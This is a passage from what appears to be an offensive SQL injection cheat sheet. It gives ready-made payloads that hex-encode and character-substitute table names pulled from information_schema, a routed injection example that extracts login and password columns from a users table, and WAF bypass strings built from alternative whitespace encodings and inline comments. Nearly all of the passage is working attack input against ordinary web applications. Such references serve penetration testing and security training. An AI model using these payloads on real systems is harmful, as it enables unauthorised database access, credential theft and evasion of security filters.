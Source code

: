 To get the text you can use:

```text
__import__('binascii').unhexlify(hex(215573607263)[2:])
```

Using **hex** and **replace** \(and **substr**\):

```text
'+(select hex(replace(replace(replace(replace(replace(replace(table_name,"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

'+(select hex(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

Full ascii uppercase and lowercase replace:
'+(select hex(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%"),"z","&"),"J","'"),"K","`"),"L","("),"M",")"),"N","@"),"O","$$"),"Z","&&")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```

## Routed SQL injection

Routed SQL injection is a situation where the injectable query is not the one which gives output but the output of injectable query goes to the query which gives output. \([Paper](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Routed%20SQL%20Injection%20-%20Zenodermus%20Javanicus.txt)\)

Example:

```text
Hex of: -1' union select login,password from users-- a
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```

## WAF Bypass

No Space \(%20\) - bypass using whitespace alternatives

```text
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

No Whitespace - bypass using comments

```text
?id=1/*comment*/and/**/1=1/**/--
```
